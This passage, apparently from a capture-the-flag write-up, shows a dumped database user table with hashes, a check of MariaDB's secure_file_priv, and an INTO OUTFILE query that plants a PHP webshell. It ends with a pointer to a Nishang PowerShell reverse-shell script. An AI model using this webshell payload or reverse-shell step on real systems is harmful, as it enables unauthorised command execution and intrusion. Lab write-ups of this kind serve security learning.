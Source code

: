 ```SQL
|  1 | Robert     | rsmith       | Smith     | 7e7abb54bbef<snip> |                                                                                                                                                                 
|  2 | Eric       | ewalters     | Walters   | d6e81aeb4df93<snip> |                                                                                                                                                                 
|  3 | Christine  | cpowers      | Powers    | e3d3eb0f46fe<snip> |                                                                                                                                                                 
+----+------------+--------------+-----------+----------------------------------+                                                                                                                                                                 
3 rows in set (0.128 sec)
```



![](https://photos.squarezero.dev/file/abir-images/Trusted/12.png)

Next, I checked if I had the write privilege on the server. If 'secure_file_priv' is empty that means I have both read and write privileges.

```SQL
MariaDB [news]> show variables like "secure_file_priv";                                                                                                                                                                                           
+------------------+-------+                                                                                                                                                                                                                      
| Variable_name    | Value |                                                                                                                                                                                                                      
+------------------+-------+                                                                                                                                                                                                                      
| secure_file_priv |       |                                                                                                                                                                                                                      
+------------------+-------+                                                                                                                                                                                                                      
1 row in set (0.131 sec)
```

Now that I have confirmed that I have write permission, I created a webshell in the root directory of the website. Now I can use the webshell to execute commands on the machine.

`SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE 'C:/xampp/htdocs/dev/webshell.php';`

![](https://photos.squarezero.dev/file/abir-images/Trusted/13.png)

I used Nishang to get a reverse shell to my local machine.

[Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)

